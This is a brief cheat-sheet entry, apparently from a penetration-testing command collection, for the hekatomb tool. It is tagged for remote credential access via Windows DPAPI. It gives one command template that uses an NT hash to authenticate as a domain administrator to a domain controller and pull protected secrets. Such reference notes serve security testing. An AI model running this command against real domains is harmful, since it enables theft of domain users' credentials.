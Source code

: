 # hekatomb

% hekatomb, dpapi

## hekatomb -
#plateform/linux  #target/remote  #cat/CREDENTIAL-ACCESS/DPAPI 

https://github.com/Processus-Thief/HEKATOMB
```
hekatomb -hashes :<nt_hash> <domain>/administrator@<dc_ip> -debug 
```